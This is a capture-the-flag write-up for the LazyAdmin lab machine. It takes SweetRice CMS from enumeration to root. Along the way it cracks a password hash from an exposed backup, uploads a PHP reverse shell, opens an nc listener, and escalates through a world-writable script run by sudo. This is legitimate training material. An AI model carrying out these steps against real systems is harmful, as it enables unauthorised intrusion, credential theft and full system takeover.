

# LazyAdmin | Wite-Up

## Enumeration

- Run nmap scan to see what ports and services are running.
    ``` 
    nmap -sC -sV 10.10.163.194
    ```
    

- nmap shows port 22 and 80 open. SSH can't be brute forced so lets check out the website.

    
    - The webpage is the default apache page. Something seems to be missing. 
    
- Using dirb, lets find some hidden directories. I used the common.txt wordlist found in kali /usr/share/wordlists/dirb/common.txt
- ```
    dirb http://<IP> <PATH TO WORDLIST>
    ```
    
- Some interesting pages were found 
    - http://<IP>/content/ shows the webpage uses SweetRice CMS
    - http://<IP>/content/as/ shows login page. admin:admin does not work.
    - http://<IP>/content/inc/ shows the directory index
    
    - Inside the mysql_backup folder, there is a file called 'mysql_bakup_20191129023059-1.5.1.sql' which might contain the password for the login page.
    - the file lastest.txt says '1.5.1' which could be the CMS version

## Exploitation

- Looking the the mysql_backup file, I found a string that looks like a username and hash of a password.
    ```
    cat mysql_bakup_20191129023059-1.5.1.sql | grep 'pass'
    ```

    

- Save the password hash to a txt file and run hashcat on it using rockyou.txt to perform dictionary brute force. 
    ```
    hashcat -m0 pass.txt /usr/share/    wordlists/rockyou.txt
    ```
- Hashcat shows the password is 'Password123' ....SMH could have guessed that.

    

- Back at the login page to try the username and password. AND WE ARE IN. 
    ```
    username: manager
    password: Password123
    ```

- After doing some research, it looks like we can upload PHP in the 'Ads' section and pop a reverse shell by visiting that page.

- I went with the php reverse shell provided by Kali linux in ```/usr/share/webshells/php/php-reverse-shell.php```
    - Make sure to change the ip and port to your local machine.

- Copy the content of php-reverse-shell.php and paste it into the webpage. Name it whatever you want (don not add .php, it will automatically get added). Click done.
The php code gets uploaded to http://IP/content/inc/ads/shell.php

    

- On the attack machine set up a listener using the same port that you chose. 
    ``` 
    nc -lnvp 4444
    ```
- To activate the reverse shell, simply visit ```http://IP/content/inc/ads/shell.php```

- ## BAMM! got a shell
    
    
    - To upgrade the shell use the following command
    ```
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
- In /home/itguy the user.txt contains the first flag.

    


## Privilege Escalation:


- The root.txt file is in the root directory which we do not have permission to view. Time to escalate to root.

- ```sudo -l``` 
    - shows that www-data can run ```/usr/bin/perl /home/itguy/backup.pl``` without a password. 

        
- Inspecting backup.pl show that it is not writable, but it calls a script in ```/etc/copy.sh``` which has universal write permission. 
 - we can modify ```copy.sh``` script to spawn a root shell because it will be used by pear using sudo. 
    

- This machine doesn't have vim, vi, or nano.. So we can just echo our command into the file.

- ```
   echo '/bin/bash' > /etc/copy.sh
    ```

- cat /etc/copy.sh to verify then EXPLOIT

- ```
    sudo /usr/bin/perl /home/itguy/backup.pl
    ```
    

- Now that we are root, simply cat /root/root.txt for the flag

    


